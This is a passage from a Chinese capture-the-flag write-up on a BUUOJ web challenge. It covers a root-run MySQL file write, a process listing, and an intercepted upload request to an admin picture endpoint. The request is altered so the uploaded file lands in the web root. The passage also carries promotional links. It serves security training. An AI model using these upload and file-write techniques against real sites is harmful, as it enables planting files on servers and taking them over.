进去发现果然 MySQL 就是 root 用户起来的，于是就能写入文件。

而 PHP 运行在 www-data 用户，/var/www/html 目录是给 www-data 用户了，但子目录没递归变更属主也没给写入权限就离谱。

```
$ ps -ef
PID   USER     TIME  COMMAND
   1 root      0:07 /bin/sh /usr/local/bin/docker-php-entrypoint
   10 root      0:21 /usr/bin/mysqld --user=root --skip-name-resolve --skip-networking=0
   54 root      0:02 php-fpm: master process (/usr/local/etc/php-fpm.conf)
   60 root      0:00 nginx: master process nginx
   61 nginx     0:00 nginx: worker process
   62 www-data  0:00 php-fpm: pool www
   63 www-data  0:01 php-fpm: pool www
19798 root      0:00 sleep 5s
19799 www-data  0:00 ps -ef 
```

也有可能预期解就只有这条路可走吧。
![在这里插入图片描述](img/fd4652a61a4b628cd0552c9e73bd61ad.png)
![在这里插入图片描述](img/eb262b47483c95bcfb2b19e906e39a1e.png)
![在这里插入图片描述](img/ba840985b0f958560a891c348b4f69a8.png)
气死了，下次直接 pyflag 算了（bushi
![在这里插入图片描述](img/f388685e6e86d211f74cbfabde15de65.png)

## 上传点再探

噢对了，寻思着咱挖了两个上传点都整不通，实在过意不去啊。

既然前面发现了 www-data 用户只有 /var/html/www 这个路径有权限写入，子目录么有，那可以 传到这个网站的根目录 啊！
【[网安资料](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)】
这里用的是修改图片的接口，也就是上面说的 第二处上传点。

上传以后抓包修改几个地方，看图。

也就是让 move_uploaded_file 结果是移动到网站根目录下。
![在这里插入图片描述](img/2906568be52062335c1d0da5cd5742df.png)

```
POST /admin/admin_pic.php?nav=pic_list&admin_p_nav=content HTTP/1.1
Host: a10f5ec3-1cae-476e-bb23-31ed556086dd.node4.buuoj.cn
Content-Length: 1546
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIZBj4kiaMbZzC9WL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*
```

pic_path 留空也行。【[网安资料](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)】
![在这里插入图片描述](img/83985bfeac15ad829660f967e0b3a5d3.png)
![在这里插入图片描述](img/f691e711f40e779f8820665d33c0e052.png)
![在这里插入图片描述](img/f33dd36a8399f73bdc7ed741fef3c8aa.png)
**呐，传上来了，能用了。**
